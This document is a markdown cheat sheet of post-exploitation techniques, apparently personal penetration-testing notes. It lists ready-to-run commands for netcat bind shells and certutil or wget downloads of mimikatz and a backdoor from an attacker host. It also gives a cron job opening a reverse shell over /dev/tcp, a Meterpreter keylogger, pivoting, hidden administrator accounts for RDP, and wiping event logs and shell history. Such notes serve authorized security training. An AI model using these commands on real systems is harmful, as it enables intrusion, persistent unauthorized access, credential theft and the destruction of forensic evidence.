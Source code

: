# Post-Exploitation

## General

### Bind Shell

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

* Windows (target)
  * `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
* Linux (target)
  * `nc -nvlp <PORT> -e /bin/bash`
* Linux (attacker)
  * `nc -nv <IP> <PORT>`
* Windows (attacker
  * `nc.exe -nv <IP> <PORT>`

### Transfer files

* Windows
  * `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
* Linux
  * `wget http://<host>/backdoor.php`
* Netcat
  * `nc -nvlp 1234 > test.txt (recepient)`
  * `nc -nv <ip> <port> < test.txt (sender)`

### Interactive shell

* Linux
  * `/bin/bash -i`

### Fully interactive shell

* Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`

### Keylogger

* Metasploit
  * `keyscan_start` : start keylogger
  * `keyscan_dump` : print captured strokes

### Pivoting

* Metasploit (in meterpreter)
  * `ipconfig` : find subnet (the host may be in other network)
  * `run autoroute -s <subnet>` : (subnet of the internal network). **This means anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.**
    * Example:
      * `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      * `run autoroute -s 10.10.0.29.0/20`
  * `run autoroute -p` : Displays active routing table.
  * auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
  * **since target\_sys\_2 does not have a route back to attacker\_sys, use bind\_shell payload** : windows/meterpreter/bind\_tcp
* Port forwarding (meterpreter/metasploit)
  * `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  * `portfwd list`
  * `nmap -sV -sC -p 1234 localhost`

## Windows

### Persistence

* Metasploit
  * search persistence module (Windows)
  * Ex: exploit/windows/local/persistence\_service
    * It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
    * When you want to connect again you need to set a listener to receive the connection
* Enable RDP
  * with metasploit : search enable\_rdp (and set session)
    * Connect to victim from attacker
      * Note: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      * Note 2: you can create a new account and add it to administrator group...
  * second way with metasploit/meterpreter (auto create account and settings):
    * In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      * enables rdp service --> creates new user with the provided parameters --> hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.

### Clearing tracks

* Metasploit/Meterpreter
  * `clearev` (clear the Application, System, and Security logs on a Windows system)

## Linux

### Persistence

* Metasploit
  * search persistence module (Linux)
    * Example: post/linux/manage/sshkey\_persistence (needed elevated privs - This module will add an SSH key to a specified user)
* Via SSH key
  * After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
* With cron jobs
  * Set up listener
  * `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` : create a cronjob (every minute time format)
  * `crontab -i cron`
  * `crontab -l` : crontab for the current user
  * NOTE: if the command doesn't work try with another one... revshell

### Clearing tracks

* `history -c` : to clear history in linux
* `cat /dev/null > ~/.bash_history` : same as above
